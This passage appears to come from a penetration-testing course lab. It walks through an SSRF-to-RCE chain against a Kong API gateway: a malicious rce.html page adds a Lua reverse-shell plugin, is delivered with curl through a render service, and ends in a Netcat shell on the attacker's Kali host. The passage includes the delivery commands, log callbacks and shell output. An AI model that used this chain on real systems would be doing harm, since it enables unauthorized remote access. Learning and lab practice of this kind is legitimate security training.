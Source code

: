 > Listing 62 - Contents of rce.html

In the code listing above, we use three sections to clarify the code and simplify updates. The page's _onload_ event calls the _createService()_ function, which sends a POST request to create a new service named "supersecret". The function then calls _createRoute()_. This function adds the /supersecret route to the new service. It then calls _createPlugin()_, which adds our Lua payload as a plugin on the service. Finally, it makes a GET request to our Kali host.

To make debugging our attack easier, we could use _fetch()_ to send the response of each call to Kong back to our Kali host.

Once this page is in our webroot, we can use curl to send it to the Render service.

```
kali@kali:~$ curl -X POST -H "Content-Type: application/json" -d '{"url":"http://172.16.16.5:9000/api/render?url=http://192.168.118.3/rce.html"}' http://apigateway:8000/files/import

{"errors":[{"message":"You don't have permission to access this.","extensions":{"code":"FORBIDDEN"}}]}
```

> Listing 63 - Delivering the RCE payload

If everything worked, we should have a "setupComplete" entry in our access.log file.

```
kali@kali:~$ sudo tail /var/log/apache2/access.log
...
192.168.120.135 - - [25/Feb/2021:13:46:16 -0500] "GET /rce.html HTTP/1.1" 200 872 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36"
192.168.120.135 - - [25/Feb/2021:13:46:16 -0500] "GET /callback?setupComplete HTTP/1.1" 404 491 "http://192.168.118.3/rce.html" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36"
```

> Listing 64 - Checking for setupComplete callback

It seems like our payload worked. We will need to set up a Netcat listener and then trigger our Lua payload by accessing the new service endpoint.

```
kali@kali:~$ curl -i  http://apigateway:8000/supersecret
```

> Listing 65 - Sending a request to the endpoint configured with our reverse shell plugin

The request will hang, but if we check our Netcat listener, we should have a shell.

```
kali@kali:~$ nc -nvlp 8888
listening on [any] 8888 ...
connect to [192.168.118.3] from (UNKNOWN) [192.168.120.135] 41764

whoami
kong

ls -al
total 72
drwxr-xr-x    1 root     root          4096 Feb 19 20:49 .
drwxr-xr-x    1 root     root          4096 Feb 19 20:49 ..
-rwxr-xr-x    1 root     root             0 Feb 19 20:49 .dockerenv
drwxr-xr-x    1 root     root          4096 Dec 17 14:57 bin
drwxr-xr-x    5 root     root           340 Feb 25 14:38 dev
-rwxrwxr-x    1 root     root          1236 Dec 17 14:57 docker-entrypoint.sh
drwxr-xr-x    1 root     root          4096 Feb 19 20:49 etc
drwxr-xr-x    1 root     root          4096 Dec 17 14:57 home
...
```

